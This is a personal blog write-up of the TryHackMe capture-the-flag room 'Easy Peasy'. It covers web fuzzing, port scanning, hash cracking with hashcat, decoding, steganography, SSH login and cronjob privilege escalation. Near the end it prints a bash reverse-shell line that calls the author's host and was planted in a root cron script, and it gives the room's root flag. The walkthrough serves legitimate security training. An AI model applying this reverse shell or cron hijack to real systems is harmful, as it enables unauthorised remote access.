Hello everyone !
Today I would like to deal with capture the flag instance named Easy Peasy on TryHackMe. Since I was really bored to study applied data analysis, I thought that solving CTF may open my mind :)
First of all, add the target IPv4 address to /etc/hosts file. In every time I append the IPv4 address to hosts file because it prevents you to memorize the address always :)
Run the commands respectively:
nano /etc/hosts or vi /etc/hosts
I generally prefer to use nano ,but some of other security professionals use vi.

Moreover, ^ indicating CTRL on your keyboard. Therefore, following commands will work:
^S : Save your current modifications
^X Quit current nano session.
Simple curl query provides whether we have web application instance on port 80 or not. Let me also check for 443.
Default request (80): curl -v easy.thm
For port 443: curl -v easy.thm:443

Web instance was working with HTTP ,so you do no need to send further query with HTTPS.

Default pages are always seem to have hiding a variety information in other endpoints for me. Therefore, conducting fuzzing and port scan will be compatible for this scenario.
Initial fuzzing does not result in efficient findings. Hence, using different payload should work.
dirsearch --url=http://easy.thm

 There was not any leak paths revealing.
Using seclists most probably provides juicy findings.
Try the fuzzing phase with customized wordlist named directory-list-2.3-medium.txt:
dirsearch --url=http://easy.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
Fuzzing did not find a lot of paths ,but still we have path called /hidden.

On related path, there was an image named lost-places:

After a port scanning phase, I recognized that nmap also revealed the unknown endpoints.

Initial scan did not provide me deep-dive information about the instance. Therefore, applying full port (-p-) scan may show identical results:

Now we got it ! ! !
Let's check through curl to understand what we have on port 65524 running Apache web server:

It seems like a default Apache configuration. Now fuzz again. Do not forget to add port number on the ending part of full url to reach customized web application port.
dirsearch --url=http://easy.thm:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
After 60930 attempts, I saw a pre-defined text file containing fuzzing words:
However, it did not need to use for fuzzing. I remembered that in the Deloitte CyberOps Bootcamp one of my instructor suggested that to make recursive search you can use GoBuster. Although dirsearch could not find anything. Let's also use GoBuster. I memorized old times while I was retriving GoBuster command from history.

I resolved the issue by just changing the wordlist that I used:
gobuster dir -u http://easy.thm:65524 -w /usr/share/wordlists/dirb/common.txt

I examined the /robots.txt and find a number ,but I was not able to classify whether it is encoded or hashed.
Crackstation and Cyberchef did not identify something. Moreover, I decided to use wordlist to bruteforce this huge string a18672860d0510e5ab6699730763b250
Kali provides a useful tool named hash-identifier and It found our hash as MD5:

To find which mode should we use run the command below:
man hashcat then use press shift and & then type md5

As you can see above, we should use 0 option with mode parameter. I would like to create basic text file to store hash on it. You can reach out commands that I run:

Result was terrible. I thought that maybe I should find correct algorithm since the output of hash-identifier indicating something different than MD5.


Now I observed that I was dealing with Microsoft's NTLM hashes v1 algorithm called Mscash. These results were totally wrong. After that I may recon through hidden endpoint to understand whether there were more directory or not.


This seems like a base64 formatted text. I hesitately check on Cyberchef:

I found a website decrypt the User-Agent hash:

Source code analysis are always crucial compenent for every web application security engagements. Do not forget to check every application's front-end code:

I will show you two consecutive approach to find other flag through hidden keyword because the creater suggest the name hidden directory:
curl and grepcurl -v http://easy.thm:65524 | grep "hidden"
Results can be seen below:

hidden suggests us to decode it:

Nope it did not work. Let's use other base formattings:
Wikipedia depicts a variety of base encoding formats:

After a long try & catch process, Base62 works !!!

Related path had embedded hash ,so let me identify & crack it:

It looks like SHA-256 hash type:

Let's use hashcat recommended types:

6900 was my solution:
hashcat -m 6900 -o cracked.txt hash.txt easypeasy_1596838725703.txt
 
Analyzing images through the steganography may reveal further data since we should find the username & password combination. After I used the password through hidden image then finally binaryCode image leak me the text file called secrets.txt.

Now I encountered with binary password in the secrettext:
GPT4-o simply solved the binary formatted password:

Do not forget that SSH was working on port 6498:

I tried many things.

flag was seem to be manipulated ,so let's reverse it:
After I directly paste it on Google, I found the result which was ROT13:

We are done with that ! ! !

It was wrong !
Giving full syntax reveal the correct one:

Find whether you have curl or wget so as to make yourself sure that you can download any files through remote host.
SMASH THE linpeas.sh:

This was too weird actually :) Since I have been trying to enhancing my recon skills on specifically on linux. It was too complicated ,but this time I found on my first shot ! ! !

Run the script cronjob script directly:

It did not work because there was nothing to run inside of the script ,so I directly added such bash reverse shell payload into the script.
sh -i >& /dev/tcp/10.11.69.113/1984 0>&1
PoC for the reverse shell:

Reverse Shell attempted to connect to MY HOST and 1984 my port respectively. Let's check whether I was correct or not :)

There was UNKNOWN host connected my machine from port 52196.
Get The Root Flag:
Flag was located as hidden file category:
You should use . (dot) when you want to interact with any hidden files.

cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}

May The Pentest Be With You ! ! !